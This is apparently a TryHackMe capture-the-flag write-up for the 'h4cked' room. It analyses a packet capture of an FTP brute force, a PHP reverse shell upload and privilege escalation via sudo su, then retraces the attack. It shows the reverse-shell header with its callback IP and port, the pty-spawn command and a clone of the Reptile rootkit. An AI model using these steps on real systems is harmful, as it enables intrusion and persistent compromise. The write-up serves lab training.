 
[TryHackMe Link](https://tryhackme.com/room/h4cked){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 7"
  # Nmap 7.93 scan initiated Wed Mar  1 20:02:56 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.199.134
    Nmap scan report for 10.10.199.134
    Host is up (0.15s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 2.0.8 or later
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=3/1%OT=21%CT=1%CU=42710%PV=Y%DS=5%DC=I%G=Y%TM=63FFF5E2
    OS:%P=aarch64-unknown-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=
    OS:A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M5
    OS:05ST11NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B
    OS:3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S
    OS:+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
    OS:)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%
    OS:A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
    OS:DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=
    OS:40%CD=S)

    Network Distance: 5 hops

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Mar  1 20:03:30 2023 -- 1 IP address (1 host up) scanned in 33.71 seconds

  ```

## <b>Task 1</b>

- [x] It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it. <a href="../assets/Capture.pcapng">Download the file here</a>

- [x] The attacker is trying to log into a specific service. What service is this? **`FTP`**
    
    As I traced the TCP stream, I found the following:
    ```s
    220 Hello FTP World!
    USER jenny
    331 Please specify the password.
    PASS password
    530 Login incorrect.
    USER jenny
    331 Please specify the password.
    PASS 666666
    530 Login incorrect.
    ```

- [x] There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool? **`Hydra`**
  
- [x] The attacker is trying to log on with a specific username. What is the username? **`Jenny`**
    
- [x] What is the user's password? 
    
    ```s linenums="1" hl_lines="6 8 9"
    220 Hello FTP World!
    USER jenny
    331 Please specify the password.
    PASS 111111
    530 Login incorrect.
    USER jenny
    331 Please specify the password.
    PASS [REDACTED]
    230 Login successful.
    ```

- [x] What is the current FTP working directory after the attacker logged in? **`/var/www/html`**
  
- [x] The attacker uploaded a backdoor. What is the backdoor's filename? **`shell.php`**

  ```s linenums="1" hl_lines="9 19 22"
    220 Hello FTP World!
    USER jenny
    331 Please specify the password.
    PASS [REDACTED]
    230 Login successful.
    SYST
    215 UNIX Type: L8
    PWD
    257 "/var/www/html" is the current directory
    PORT 192,168,0,147,225,49
    200 PORT command successful. Consider using PASV.
    LIST -la
    150 Here comes the directory listing.
    226 Directory send OK.
    TYPE I
    200 Switching to Binary mode.
    PORT 192,168,0,147,196,163
    200 PORT command successful. Consider using PASV.
    STOR shell.php
    150 Ok to send data.
    226 Transfer complete.
    SITE CHMOD 777 shell.php
    200 SITE CHMOD command ok.
    QUIT
    221 Goodbye.
  ```

- [x] The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL? **`http://pentestmonkey.net/tools/php-reverse-shell`**
  
  ```php linenums="1" hl_lines="14"
    <?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    .
    .
    .
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.0.147';  // CHANGE THIS
    $port = 80;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
  ```

- [x] Which command did the attacker manually execute after getting a reverse shell? **`whoami`**
    
    ```s linenums="1" hl_lines="7"
    Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    22:26:54 up  2:21,  1 user,  load average: 0.02, 0.07, 0.08
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    jenny    tty1     -                20:06   37.00s  1.00s  0.14s -bash
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $ ls -la
    ``` 

- [x] What is the computer's hostname? **`wir3`**
- [x] Which command did the attacker execute to spawn a new TTY shell? 
    **`python3 -c 'import pty; pty.spawn("/bin/bash")'`**
- [x] Which command was executed to gain a root shell? **`sudo su`**

    ```s linenums="1" hl_lines="1 2 16"
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@wir3:/$ su jenny
    su jenny
    Password: [REDACTED]

    jenny@wir3:/$ sudo -l
    sudo -l
    [sudo] password for jenny: [REDACTED]

    Matching Defaults entries for jenny on wir3:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User jenny may run the following commands on wir3:
        (ALL : ALL) ALL
    jenny@wir3:/$ sudo su
    sudo su
    root@wir3:/# whoami
    whoami
    root
    root@wir3:/# cd
    ```

- [x] The attacker downloaded something from GitHub. What is the name of the GitHub project? **`Reptile`**

    ```s linenums="1" hl_lines="2 3"
    cd
    root@wir3:~# git clone https://github.com/f0rb1dd3n/Reptile.git
    git clone https://github.com/f0rb1dd3n/Reptile.git
    Cloning into 'Reptile'...
    remote: Enumerating objects: 217, done..[K
    remote: Counting objects:   0% (1/217).[K
    remote: Counting objects:   1% (3/217).[K
    ```

- [x] The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called **`Rootkit`**

## <b>Task 2</b>

While using the Hydra tool to perform a brute force attack on the FTP service, I was able to discover that the password for Jenny.

<img id="image1" />

I uploaded my reverse shell replacing the one in webserver and accessed through browser. I concurrently launched a listener to intercept the incoming shell.

<img id="image2" />

By utilizing the credentials discovered in Task-1, I logged in as `Jenny` using **`su jenny`**. As Jenny possessed access to all commands in Linux, I executed **`sudo su`** to escalate my privileges to root.

<img id="image3" />

I accessed the flag.txt file located in the Reptile directory and read its contents.

<img id="image4" />

<script>

// JSON object
const data = {
    "desc": "Find out what happened by analysing a .pcap file and hack your way back into the machine",
    "ip":  "10.10.199.134",
    "ports": "21/tcp,ftp,vsftpd 2.0.8 or later;80/tcp,http,Apache httpd 2.4.29 ((Ubuntu))",
    "difficulty":"easy",
    "id": "9"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }

}

updateHTML();
</script>